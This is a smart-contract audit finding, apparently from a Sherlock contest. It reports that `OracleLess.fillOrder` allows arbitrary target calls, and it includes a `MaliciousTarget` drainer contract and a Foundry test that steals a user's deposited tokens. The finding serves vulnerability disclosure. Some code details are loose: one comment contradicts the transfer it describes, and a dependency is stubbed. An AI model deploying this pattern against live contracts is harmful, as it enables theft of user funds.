 Mean Brown Barbel

High

# Malicious Target Contract Can Drain User Funds During Order Execution

##  Summary

The `OracleLess` contract's `fillOrder` function allows arbitrary target contract execution, which can be exploited by a malicious target contract to drain user funds that were deposited for orders.

## Impact

High severity. An attacker can steal all tokens that users have deposited into pending orders by providing a malicious target contract during order execution.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L103

## Root Cause
The fillOrder function allows arbitrary external calls to a target contract with user funds, but does not properly validate that:
    The target contract is trusted/whitelisted
    The interaction results in a legitimate token swap
    The tokens are properly transferred to the intended recipient

## POC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousTarget {
    function attack(address tokenIn, address tokenOut, address victim) external {
        // Drain all tokens from the victim contract
        uint256 balance = IERC20(tokenIn).balanceOf(victim);
        IERC20(tokenIn).transferFrom(victim, address(this), balance); //leave 1 wei in the victim contract
        
        // Transfer the tokens from this contract to the caller
       IERC20(tokenOut).transfer(msg.sender, 1);
    }
}

```

Use above Target Contract for testing 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/automatedTrigger/OracleLess.sol";
import "../src/automatedTrigger/IAutomation.sol";
import "../src/automatedTrigger/AutomationMaster.sol";
import "../src/automatedTrigger/StopLimit.sol";
import "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import {IPythRelay} from "../src/oracle/IPythRelay.sol";
import {MockPythRelay} from "./mocks/MockPythRelay.sol";
import {MaliciousTarget} from "./MaliciousTarget.sol";

contract SherlockContestTest is Test {
    OracleLess public oracleLess;
    AutomationMaster public automationMaster;
    IPermit2 public permit2;
    StopLimit public stopLimit;
    // Test tokens
    MockERC20 public mockTokenIn;
    MockERC20 public mockTokenOut;
    MockPythRelay public mockOracleIn;
    MockPythRelay public mockOracleOut;

    // Test accounts
    address public owner;
    MaliciousTarget public maliciousTarget;

    function setUp() public {
        // Set up accounts
        owner = address(this);

        // Deploy dependencies
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(deployPermit2()); // You'll need to implement this or use a mock

        // Deploy main contract
        oracleLess = new OracleLess(automationMaster, permit2);
        stopLimit = new StopLimit(automationMaster, IBracket(address(0)), permit2);

        // Deploy test tokens
        mockTokenIn = new MockERC20("Token A", "TKNA", 18);
        mockTokenOut = new MockERC20("Token B", "TKNB", 18);


        mockOracleIn = new MockPythRelay();
        mockOracleOut = new MockPythRelay();

        // Setup oracles in AutomationMaster
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(mockTokenIn));
        IPythRelay[] memory relays = new IPythRelay[](1);
        relays[0] = IPythRelay(address(mockOracleIn));
        automationMaster.registerOracle(tokens, relays);

        // Do the same for mockTokenOut
        tokens[0] = IERC20(address(mockTokenOut));
        relays[0] = IPythRelay(address(mockOracleOut));
        automationMaster.registerOracle(tokens, relays);

        automationMaster.setMaxPendingOrders(10);

        automationMaster.setMinOrderSize(1);
    }

    function deployPermit2() internal returns (address) {
        // You can either:
        // 1. Deploy a mock Permit2
        // 2. Fork mainnet and use the real Permit2 address
        // 3. Deploy the actual Permit2 contract
        // For this example, let's assume we're using a mock
        return address(0x1); // Replace with actual deployment
    }

function testDrainAttack() public {
    // Setup initial balances
    uint256 initialAmount = 1000e18;
    mockTokenIn.mint(address(this), initialAmount);
    mockTokenOut.mint(address(oracleLess), initialAmount); // Contract has initial tokenOut balance

    // Setup Alice
    address alice = makeAddr("alice");
    mockTokenIn.mint(alice, initialAmount);

    vm.startPrank(alice);
    mockTokenIn.approve(address(oracleLess), initialAmount);

    // Alice creates order
    uint96 orderId = oracleLess.createOrder(
        IERC20(address(mockTokenIn)),
        IERC20(address(mockTokenOut)),
        1000e18, // amountIn
        0, // minAmountOut
        alice, // recipient
        0, // feeBips
        false, // permit
        "" // permitPayload
    );
    vm.stopPrank();
    assertEq(mockTokenIn.balanceOf(address(oracleLess)), initialAmount, "Contract should have alice tokens after order creation");
    // Deploy malicious contract
    MaliciousTarget malicious = new MaliciousTarget();
    mockTokenOut.mint(address(malicious), 1);
    // Prepare attack data
    bytes memory attackData = 
        abi.encodeWithSelector(MaliciousTarget.attack.selector, address(mockTokenIn), address(mockTokenOut), address(oracleLess));

    // Anyone can call fillOrder with malicious contract
    oracleLess.fillOrder(0, orderId, address(malicious), attackData);

    // Assert the contract has been drained
    assertEq(mockTokenIn.balanceOf(address(malicious)), 1000e18, "Attacker should have all Alice's tokens");
}
```

`testDrainAttack()` shows how a malicious target contract can take all the funds(if slippage zero) of Alice
